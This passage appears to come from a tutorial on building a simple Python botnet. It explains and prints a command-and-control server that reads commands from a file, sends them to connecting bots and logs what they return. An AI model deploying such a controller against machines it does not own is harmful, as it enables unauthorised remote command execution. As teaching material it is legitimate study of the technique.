 As soon as the connection is made, we open the commands.txt file : each line should contain a command.  
```python
        with open('commands.txt') as file:
            self.cmdlist = [line.strip() for line in file if line.strip()]
```  
The commands to execute are added in `self.cmd.list`
We use **strip()** to be sure not to add empty lines.  

After that we loop our list of commands and each command is sent to our bot: `self.request.sendall(i.strip().encode())`.  
We then wait for a response from the bot containing the result of the execution: `self.data=self.request.recv(1024).strip()`  
```python
for i in self.cmdlist:
            print('RUN {} :'.format(i))
            self.request.sendall(i.strip().encode())
            self.data=self.request.recv(1024).strip()
            print('\toutput : {}'.format(self.data))    
        self.request.sendall('end'.encode())
        pass
```
Once the scrolling of the loop is finished, we send an __'end'__ message to end with the bot: `self.request.sendall('end'.encode())` .  

Inside the main we just create a TCP server: `tcpserver=socketserver.TCPServer((HOST,PORT),BotHandler)`  
Then we put the server in listening mode: `tcp server.serve_forever()` .  
```python
if __name__=='__main__':
    HOST,PORT='',8000
    tcpserver=socketserver.TCPServer((HOST,PORT),BotHandler)
    try:
        print('Bot server is listening...')
        tcpserver.serve_forever()
    except Exception as e:
        print('Oups ! : An error occured .')
        print(e)
```  

This is how the botserver.py file should look like the source code is available on [github](https://github.com/0script/simple-botnet) :   
```python
import socketserver

class BotHandler(socketserver.BaseRequestHandler):

    def handle(self):

        "handle any request received "
        self.data=self.request.recv(1024).strip()
        print("BotName {} with IP {} sent : ".format(self.data,self.client_address[0]))
        print('sending command ...')
        self.cmdlist=[]

        with open('commands.txt') as file:
            self.cmdlist = [line.strip() for line in file if line.strip()]
            
        for i in self.cmdlist:
            print('RUN {} :'.format(i))
            self.request.sendall(i.strip().encode())
            self.data=self.request.recv(1024).strip()
            print('\toutput : {}'.format(self.data))    
        self.request.sendall('end'.encode())

        pass
```